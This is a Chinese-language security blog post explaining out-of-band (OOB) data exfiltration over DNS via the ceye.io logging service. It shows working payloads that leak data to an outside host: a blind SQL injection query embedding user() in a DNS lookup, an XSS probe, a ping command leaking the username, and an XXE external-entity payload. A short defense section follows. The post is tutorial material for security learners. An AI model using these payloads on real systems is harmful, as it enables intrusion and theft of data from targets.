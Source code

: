 ```yaml
---
layout:     post
title:      OOB
date:       2020-05-27
author:     lceCr4m
header-img: img/faker.jpg
catalog: true
tags:
    - OOB
---
```

> 本文是关于out-of-band的相关内容。

# 0x00 前言
一会要打季中杯赛，第一场fpx和t1。赶紧写完去看。

# 0x01 介绍
out-of-band带外数据（简称OOB）是一种通过其他传输方式来窃取数据的技术（例如利用DNS解析协议外带数据）。OOB通常需要易受攻击的实体生成出站HTTP/TCP/UDP/ICMP请求，然后允许攻击者泄露数据。OOB攻击的成功基于出口防火墙规则，即是否允许来自易受攻击的系统和外围防火墙的出站请求。从而可以从域名服务器（DNS）中提取数据。

# 0x02 原理
首先需要一个可以使用的域名，ceye.io免费提供了一个二级域名。我们通过ceye.io平台可以读取http记录和dns记录。当我们访问xxx.yyy.ceye.io时，主机会通过ns记录去查询A记录对应的ip地址，在平台上留下记录（平台应该是配置好了让你使用这个功能）。

在sql注入为布尔盲注、时间盲注时，注入的效率低且线程高，容易被waf拦截，又或者是目标站点没有回显，我们在读取文件、执行命令注入等操作时无法明显的确认是否利用成功。此时我们可以使用OBB进行外带数据。

# 0x03 利用
- sql注入获取结果（盲注，无回显等情况）
```
select load_file(concat("\\\\",user(),"yyyy.xxxx.ceye.io//aa.txt"));
```
- 判断是否存在xss（若存在xss，出发后平台记录请求）
```
><img src=http://xss.xxxx.ceye.io/aaa>
```
- 无回显的RCE（命令执行没有回显时，带出结果）
```
ping %USERNAME%.xxxx.ceye.io
```
- 判断是否存在ssrf
- xxe外部实体注入（可以读取文件内容回显到平台）
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://xxx.ceye.io/xxe_test">
%remote;]>
<root/>
```

# 0x04 防御
检测可以利用pdns数据来分析恶意dns。可以是从企业内部去dns数据中分析恶意dns，也可以是从外部pdns威胁分析服务中获取恶意的dns，如思科的opendns服务。

防御方法一般可以采用DNS RPZ来sinkhole/blackhole dns请求(前者是返回无害的dns答复给请求，后者是不返回dns答复给请求，从而阻断恶意dns的请求),或者采用外部的具备安全能力的DNS服务器，如IBM的9.9.9.9DNS服务。

# 0x05 附图
![oob](https://github.com/lceCre4m/lceCre4m.github.io/blob/master/img/oob.jpg?raw=true)










